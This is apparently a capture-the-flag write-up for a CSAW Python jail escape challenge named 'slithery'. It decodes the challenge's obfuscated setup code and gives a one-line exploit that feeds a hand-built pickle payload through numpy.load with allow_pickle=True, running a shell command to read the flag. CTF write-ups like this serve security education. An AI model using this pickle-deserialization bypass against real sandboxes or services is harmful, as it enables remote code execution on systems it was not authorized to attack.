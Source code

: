 # slithery

Author: [roerohan](https://github.com/roerohan) and [thebongy](https://github.com/thebongy)

# Requirements

- Python

# Source

- [sandbox.py](./sandbox.py)

```
Setting up a new coding environment for my data science students. Some of them are l33t h4ck3rs that got RCE and crashed my machine a few times :(. Can you help test this before I use it for my class? Two sandboxes should be better than one...

nc pwn.chal.csaw.io 5011
```

# Exploitation

This is a python jail escape challenge. In the source file, you see the following lines:

```py
final_cmd = """
uOaoBPLLRN = open("sandbox.py", "r")
uDwjTIgNRU = int(((54 * 8) / 16) * (1/3) - 8)
ORppRjAVZL = uOaoBPLLRN.readlines()[uDwjTIgNRU].strip().split(" ")
AAnBLJqtRv = ORppRjAVZL[uDwjTIgNRU]
bAfGdqzzpg = ORppRjAVZL[-uDwjTIgNRU]
uOaoBPLLRN.close()
HrjYMvtxwA = getattr(__import__(AAnBLJqtRv), bAfGdqzzpg)
RMbPOQHCzt = __builtins__.__dict__[HrjYMvtxwA(b'X19pbXBvcnRfXw==').decode('utf-8')](HrjYMvtxwA(b'bnVtcHk=').decode('utf-8'))\n""" + command
exec(final_cmd)
```

Once you decode these, they basically translate to:

```py
sandbox = open("sandbox.py", "r")
l = ['from', 'base64', 'import', 'b64decode']
base64 = l[1]
b64decode = l[-1]
sandbox.close()
base64_b64decode = getattr(__import__(base64), b64decode)
numpy = __builtins__.__dict__[base64_b64decode(b'X19pbXBvcnRfXw==').decode('utf-8')](base64_b64decode(b'bnVtcHk=').decode('utf-8'))
```

So you can see which variable stores what. Now, the script executes the command you entered along with the list of commands shown above, with obfuscated variable names. 
<br />

There is of course a blacklist, part of which have written in [blacklist.py](./blacklist.py). We notice `numpy` has been imported. `numpy` has a function `numpy.load()`, which can take load a pickle payload from a file, given the option `allow_pickle=True`. We know that we can execute RCE using pickle payloads, which is exactly what we have to do.
<br />

The challenge however is to create a `file like object` for `numpy.load()`, since you don't have access to write a file on the system. Reading the documentation for `numpy.load()` you find out that a `file like object` is any object which has the attributes `read`, `readline`, and `seek`. You don't need to implement these properly, but they must return the expected type of data. Here's how you can do all of this in 1 line, keeping the blacklist in consideration.


```py
$ nc pwn.chal.csaw.io 5011
EduPy 3.8.2
>>> obj=lambda: None; setattr(obj, HrjYMvtxwA('cmVhZA==').decode(), lambda x: bytes([128, 3, 99, 112, 111, 115, 105, 120, 10, 115, 121, 115, 116, 101, 109, 10, 113, 0, 88, 12, 0, 0, 0, 99, 97, 116, 32, 102, 108, 97, 103, 46, 116, 120, 116, 113, 1, 133, 113, 2, 82, 113, 3, 46])); setattr(obj, HrjYMvtxwA('c2Vlaw==').decode(), lambda x,y:x); setattr(obj, HrjYMvtxwA('cmVhZGxpbmU=').decode(), lambda x: bytes([128, 3, 99, 112, 111, 115, 105, 120, 10, 115, 121, 115, 116, 101, 109, 10, 113, 0, 88, 12, 0, 0, 0, 99, 97, 116, 32, 102, 108, 97, 103, 46, 116, 120, 116, 113, 1, 133, 113, 2, 82, 113, 3, 46]));RMbPOQHCzt.load(obj, allow_pickle=True)
flag{y4_sl1th3r3d_0ut}
```

The flag is:

```
flag{y4_sl1th3r3d_0ut}
```
